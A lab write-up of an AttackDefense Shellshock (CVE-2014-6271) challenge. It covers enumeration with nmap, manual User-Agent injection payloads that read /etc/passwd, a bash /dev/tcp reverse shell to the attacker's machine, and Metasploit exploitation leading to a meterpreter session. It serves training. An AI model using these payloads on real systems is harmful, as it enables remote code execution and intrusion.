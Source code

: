 # 🔬Bash

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
> * Target IP: `192.54.253.3`
> * **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
nmap 192.54.253.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 192.54.253.3
nmap -sV 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check the website via a browser:
  * `http://192.173.104.3/`
* View Page Source
  * `http://192.173.104.3/gettime.cgi`
  * `gettime.cgi` script can be utilized as the attack vector

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script http-shellshock --script-args http-shellshock.uri=/gettime.cgi 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation <a href="#manual-exploitation" id="manual-exploitation"></a>

* [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
* To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  * Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  * Inside Proxy menu, turn **Intercept On**
* Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite and send it to `repeater`.

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Send the request to the **Repeater**
* Replace `User-Agent:` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

* **Send** the request and check the Response

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
() { :; }; echo; echo; /bin/bash -c 'id'
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

* Set up a listener

```bash
nc -nvlp 1234
```

* Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

* [About the shell](https://explainshell.com/explain?cmd=bash+-i+%3E%26%2Fdev%2Ftcp%2F192.173.104.2%2F1234+0%3E%261)

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automatic Exploitation <a href="#automatic-exploitation" id="automatic-exploitation"></a>

```bash
service postgresql start && msfconsole
msf5 > search shellshock
```



<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > use 0
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > options
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 192.54.253.3
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /gettime.cgi
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use 5
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.54.253.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ls
meterpreter > cat /etc/passwd
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>









